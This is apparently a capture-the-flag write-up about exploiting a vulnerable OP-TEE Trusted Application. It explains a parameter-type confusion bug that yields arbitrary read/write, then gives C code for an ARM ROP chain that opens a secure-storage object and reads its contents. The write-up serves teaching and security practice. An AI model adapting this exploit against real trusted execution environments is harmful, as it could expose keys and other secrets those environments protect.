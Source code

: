 
# Overview

In this task participants are given a vulnerable OP-TEE Trusted Application (TA). The goal is to extract a flag from secure storage.

# Vulnerability

While the general logic of the TA is sound, it contains a vulnerability in the way it handles user input. Specifically, the TA does not properly validate the provided types when accessing `tee_params`. This allows user to pass a `TEEC_VALUE_INOUT` parameter where a `TEE_PARAM_TYPE_MEMREF_INOUT` is expected. With this an arbitrary read/write primitive can be achieved.

# Exploitation

Now the task is to utilize this to actually achieve arbitrary code execution. As we can't allocate executable memory in the TA, we have to write a ROP chain. Luckily for us, ASLR is turned off, so the stack addresses are predictable, and it's possible to directly write our ROP chain to the normal stack.

The goal of the ROP is to perform two calls: `OpenPersistentObjectWrapper` to get a handle to the secure storage object, and `TEE_ReadObjectData` to read the flag from the secure storage. Note here, that the parameters for these functions can't directly use shared memory buffers, so we have to write the parameters somewhere in the secure memory.

```c
TEE_Result __cdecl OpenPersistentObjectWrapper(
      TEE_ObjectHandle *object,
      const unsigned __int8 *obj_id,
      size_t obj_id_sz,
      uint32_t obj_data_flag)

res = TEE_ReadObjectData(object, data, 0x100, &read_bytes);
```

With this in place, the ropchain looks as follows:

```c
const uint32_t pop_r0_r1_r2_r3_pop_ip_pc = ta_code_base + 0x00001f84;
const uint32_t memcpy_unchecked =
    ta_code_base + 0x11AE4 | 1; // Skip `STRD.W R7, LR, [SP,#var_8]!`
const uint32_t openpersistentobjectwrapper =
    ta_code_base + 0x61c | 1; // Skip `STRD.W R7, LR, [SP, #-8]!`
const uint32_t tee_read_object_data =
    ta_code_base + 0x5A28 | 1; // Skip `STRD.W R7, LR, [SP,#var_8]!`
+
char *rop_chain_start = buf;
// Open the persistent object.
P32(pop_r0_r1_r2_r3_pop_ip_pc, rop_chain_start);
P32(stack_base + offsetof(RopData_t, object_handle), rop_chain_start); // r0
P32(stack_base + offsetof(RopData_t, object_id), rop_chain_start);     // r1
P32(sizeof(((RopData_t *)0)->object_id), rop_chain_start);             // r2
P32(0x11, rop_chain_start);                                            // r3
P32(0x45454545, rop_chain_start);                                      // ip
P32(openpersistentobjectwrapper, rop_chain_start);                     // pc

// Dereference the object handle. Basically use memcpy, to copy the value from
// the stack_base + 0x26a8, to our current part of the rop-chain.
P32(0x41414141, rop_chain_start);
P32(pop_r0_r1_r2_r3_pop_ip_pc, rop_chain_start);
P32(stack_base + 0x26a8, rop_chain_start);                             // r0
P32(stack_base + offsetof(RopData_t, object_handle), rop_chain_start); // r1
P32(sizeof(((RopData_t *)0)->object_handle), rop_chain_start);         // r2
P32(0x41414141, rop_chain_start);                                      // r3
P32(0x41414141, rop_chain_start);                                      // ip
P32(memcpy_unchecked, rop_chain_start);                                // pc

P32(0x41414141, rop_chain_start); // r7
P32(pop_r0_r1_r2_r3_pop_ip_pc, rop_chain_start);
P32(0x41424344, rop_chain_start); // r0 = object_handle (dummy value, replaced in the rop-chain using memcpy call)
P32(stack_base + offsetof(RopData_t, flag_bytes), rop_chain_start);      // r1 = data buffer
P32(128, rop_chain_start); // r2 = data size
P32(stack_base + offsetof(RopData_t, read_bytes), rop_chain_start); // r3 = actual bytes read
P32(0x41414141, rop_chain_start);           // ip
P32(tee_read_object_data, rop_chain_start); // pc

// Copy the object data to the output buffer.
P32(0x41414141, rop_chain_start);
P32(pop_r0_r1_r2_r3_pop_ip_pc, rop_chain_start);
P32(input_param_location + 0x01b8, rop_chain_start); // r0 = input_param_location
P32(stack_base + offsetof(RopData_t, flag_bytes), rop_chain_start); // r1 = stack_base + offsetof(RopData_t, flag_bytes)
P32(sizeof(((RopData_t *)0)->flag_bytes), rop_chain_start); // r2 = 128
P32(0x41414141, rop_chain_start);                           // r3 = 0x41414141
P32(0x41414141, rop_chain_start);                           // ip
P32(memcpy_unchecked, rop_chain_start);                     // pc
```

Consult exploit code for more details.
